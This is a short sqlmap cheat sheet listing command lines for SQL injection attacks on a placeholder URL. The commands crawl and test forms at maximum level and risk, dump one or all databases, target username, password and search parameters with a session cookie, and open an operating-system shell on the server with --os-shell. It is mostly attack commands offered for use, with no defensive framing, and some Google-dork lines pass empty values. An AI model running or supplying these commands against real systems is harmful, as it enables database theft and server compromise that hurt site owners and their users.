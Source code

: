 # Crawl the web page and test all forms (Requires a lot of user interaction)
``` sqlmap -u $url --crawl --forms --level 5 --risk 3 ```

# Enter sqlmap interactive shell

```sqlmap --shell```

# Test for write privileges and get a shell

``` sqlmap -u $url --os-shell```

# Enumerate databases

```sqlmap -u $url --dbs```

# Dump databases

```sqlmap -u $url --dump```

## Most often I use something like:

```sqlmap -u $url --dump --crawl --forms --level 5 --risk 3```

### And/Or

```sqlmap -u $url --dump --crawl=2 --forms --level 5 --risk 3```
```sqlmap -u $url --dump-all --crawl=2 --forms --level 5 --risk 3```
```sqlmap -u $url --dump --cookie=$cookie --level 5 --risk 3```
```sqlmap -u $url --os-shell --cookie=$cookie --level 5 --risk 3```
```sqlmap -u $url -p=username --dump --cookie=$cookie --level 5 --risk 3```
```sqlmap -u $url -p=password --dump --cookie=$cookie --level 5 --risk 3```
```sqlmap -u $url -p=search --dump --cookie=$cookie --level 5 --risk 3```

# Session Handling

```sqlmap -u $url --cookie=$cookie --level=5 --risk=3 --forms```
```sqlmap -u $url --cookie=$cookie --forms --level=5 --risk=3 --forms```

# SQLMap'ing with OSINT

```sqlmap -u $url -g site: --level=5 --risk=3 --forms```
```sqlmap -u $url -g url: --level=5 --risk=3 --forms```
```sqlmap -u $url -g page: --level=5 --risk=3 --forms```
